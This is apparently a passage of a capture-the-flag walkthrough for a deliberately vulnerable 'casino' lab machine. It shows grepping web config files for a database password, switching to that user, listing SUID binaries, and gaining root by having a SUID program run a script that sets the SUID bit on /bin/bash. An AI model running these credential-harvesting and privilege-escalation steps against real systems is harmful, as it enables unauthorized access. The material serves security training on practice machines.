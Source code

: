 ![Pasted image 20240115045338.png](/img/user/imgs/Pasted%20image%2020240115045338.png)

![Pasted image 20240115045549.png](/img/user/imgs/Pasted%20image%2020240115045549.png)


/var/www/html/ultra-access-view/.config
/var/www/html/ultra-access-view/.config


```bash
find /var/www/html \*config* 2>/dev/null -exec cat {} \; | grep -i 11A -B 4

self::$cfg['dbDebugMode'] = false;
self::$cfg['dbServer'] = 'localhost';
self::$cfg['dbUser'] = 'valenka';
self::$cfg['dbPass'] = '11archives11!';
```

```bash

www-data@casino:/var/www/html/ultra-access-view$ su valenka
Password: 
valenka@casino:/var/www/html/ultra-access-view$ 

```

Got user access.

```bash

valenka@casino:~/Maildir$ find  / -perm -4000  2>/dev/null
/opt/casino-royale/mi6_detect_test
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/xorg/Xorg.wrap


valenka@casino://$ cd /tmp

valenka@casino:/tmp$ cat run.sh 

chmod +s /bin/bash

valenka@casino:/tmp$ /opt/casino-royale/mi6_detect_test

valenka@casino:/tmp$ bash -p

bash-4.4# whoami

root

```